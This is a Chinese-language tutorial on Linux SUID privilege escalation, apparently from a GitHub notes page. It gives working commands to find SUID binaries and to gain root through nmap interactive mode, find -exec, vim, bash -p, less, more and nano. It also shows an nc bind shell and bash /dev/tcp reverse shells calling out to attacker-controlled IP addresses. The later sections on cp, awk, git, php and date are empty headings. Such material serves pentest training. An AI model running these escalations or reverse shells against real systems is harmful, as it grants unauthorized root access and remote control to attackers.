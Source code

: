# SUID提权

 SUID (Set UID)是Linux中的一种特殊权限,其功能为用户运行某个程序时，如果该程序有SUID权限，那么程序运行为进程时，进程的属主不是发起者，而是程序文件所属的属主。但是SUID权限的设置只针对二进制可执行文件,对于非可执行文件设置SUID没有任何意义.

 在执行过程中，调用者会暂时获得该文件的所有者权限,且该权限只在程序执行的过程中有效. 通俗的来讲,假设我们现在有一个可执行文件`ls`,其属主为root,当我们通过非root用户登录时,如果`ls`设置了SUID权限,我们可在非root用户下运行该二进制可执行文件,在执行文件时,该进程的权限将为root权限.

 利用此特性,我们可通过SUID进行提权

## 通过root设置的具有SUID权限的二进制可执行文件提权

如果以下文件具有SUID权限,那就可以利用他们进行提权

```
nmap
vim
find
bash
more
less
nano
cp
awk
```

利用以下命令查看哪些文件具有SUID权限

```
1.find / -perm -u=s 2>/dev/null

2.find / -user root -perm -4000 -print 2>/dev/null

3.find / -perm -u=s -type f 2>/dev/null
```

以上命令列出来的二进制文件都是以root权限运行的

以下命令可以确认是否是SUID权限

```
ls -l filename
```

![image-20211020181505339](images/1.png)

### nmap

nmap设置了SUID权限的可以进行提权,不过那只是早期的nmap了需要的nmap版本2.02至5.21

现在的nmap已经达到了7.2的版本了

在早期nmap版本中,带有交互模式,因而允许用户执行shell命令

使用如下命令进入nmap交互模式:

```bash
nmap --interactive
```

在nmap交互模式中 通过如下命令提权

```sh
nmap> !sh
sh-3.2# whoami
root
```

msf当中也有利用nmap进行提权的模块

```
exploit/unix/local/setuid_nmap
```

这里我就没有进行演示了,我的nmap版本已经是7.2了

### find

这个比较常见,不过我的ubantu并没有设置find的SUID权限需要用以下命令去设置

```
chmod u+s filename   设置SUID权限

chmod u-s filename   去掉SUID设置
```

find命令在/usr/bin下

![image-20211020182907857](images/2.png)

可以看到,我给我的ubantu的find设置了SUID权限,现在已经是root权限了

![image-20211020182958996](images/3.png)

那我就可以利用find去进行权限提升

find命令自带-exec参数，可以执行命令，若find有suid权限，那么使用exec相当于直接提权到root

命令如下

```
touch/mkdir anyfile #必须要有这个文件(这个目录有一个test文件,随便找一个文件即可)
find anyfile -exec whoami \;#看看这个文件是以什么身份运行的(执行了exec命令)
find anyfile -exec '/bin/sh' \;#进入shell(和反弹shell原理相似,执行了/bin/sh命令,然后我们的输出会被当做系统命令执行,又是以root权限运行,就实现了提权)
```

![image-20211020183517274](images/4.png)

可以看到我的权限已经变为了root权限

也可以直接执行命令

```
find / -exec '/bin/sh' \;
```

![image-20211020194903622](images/5.png)

除此之外，linux一般都安装了nc 我们也可以利用nc 广播或反弹shell

广播shell:

```bash
find user -exec nc -lvp 4444 -e '/bin/sh' \;
```

在攻击机上:

```bash
nc 靶机ip 4444
```

反弹shell

```bash
find anyfile -exec bash -c 'bash -i >& /dev/tcp/47.xxx.xxx.96/4444 0>&1' \;
```

在攻击机上:

```bash
nc -lvp 4444
```

如果执行了还是www权限,那就需要用到-p参数

```
find / -exec '/bin/sh' -p \;
```

> 默认情况下 bash 在执行时，如果发现 euid 和 uid 不匹配，会将 euid（即 suid） 强制重置为uid

![image-20211031173215509](images/6.png)

因此需要用到参数-p，参数-p的时候则不会再覆盖

### vim

当vim拥有root权限的时候我们就能去读取系统上的所有文件

提权操作

```
vim /etc/passwd

按下esc输入
:set shell=/bin/sh  #设置shell内容
然后按esc再输入
:shell  #进入shell

也可以直接输入vim随便进入一个文本编译器以同样的方式提权
```

![image-20211024224419983](images/7.png)

当然vim.basic和vim.tiny如果有SUID权限也能这样提权

### bash

可以看到我的bash是root权限,给我的bash加上一个SUID权限

![image-20211024224919572](images/8.png)

直接输入一个`bash -p`新开一个bash shell即可提权

![image-20211024225012025](images/9.png)

### less

![image-20211025224326325](images/10.png)

添加SUID权限

提权操作

```
less /etc/passwd
输入
!/bin/sh

less和more命令需要加上对应的文件名
```

![image-20211025224457190](images/11.png)

提权成功

### more

提权操作与less相同

![image-20211025224653890](images/12.png)

### nano

添加SUID权限

![image-20211025225109272](images/13.png)

nano是上古时代的文本编译器了可以直接输入nano进入

```
nano #进入文本编译器

Ctrl + R
Ctrl + X 
然后就可以输入命令了

直接输入/bin/sh提权会无法输入,我就直接反弹shell了
bash -i >& /dev/tcp/192.168.121.129/2333 0>&1

```

![image-20211025230004421](images/14.png)

不过这里我反弹shell后还是seed用户并不是root

### cp

### awk

### git

### php

### date
